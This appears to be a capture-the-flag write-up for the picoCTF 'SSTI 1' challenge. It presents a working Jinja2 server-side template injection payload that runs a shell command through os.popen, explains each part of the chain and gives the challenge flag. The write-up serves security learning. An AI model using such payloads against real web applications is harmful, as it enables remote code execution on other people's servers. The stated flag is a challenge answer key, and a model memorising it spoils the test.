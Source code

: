 # 🛡️ SSTI 1 – Server-Side Template Injection (Easy)

---

## 🌐 Overview
- **Challenge Type**: Server-Side Template Engine Exploitation  
- **Difficulty**: 🟢 Easy  
- **Topic**: Server-Side Template Injection (SSTI) using Jinja2

---

## 📝 Description
1. I made a cool website where you can announce **whatever you want**! Try it out!
2. I heard templating is a **cool and modular** way to build web apps. Let’s see how that might go wrong…

---

## 🧪 Approach

### 🔐 SSTI Payload
Paste the following payload into the input field on the website:

```jinja2
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("cat flag").read() }}
Always treat user input as untrusted in templating contexts
```
| Part                           | Explanation                                                                                 |
| ------------------------------ | ------------------------------------------------------------------------------------------- |
| `self`                         | Refers to the current template instance                                                     |
| `_TemplateReference__context`  | Name-mangled attribute that exposes internal context data                                   |
| `.cycler`                      | A built-in Jinja2 object used for alternating values (used here to reach deeper attributes) |
| `.__init__.__globals__`        | Accesses the global namespace of the `cycler`’s constructor                                 |
| `.os.popen("cat flag").read()` | Executes a shell command to read the contents of the `flag` file                            |


### Flag format
    - picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}
    - Uyishyiramo gutya imeze baguha nyoko broo!

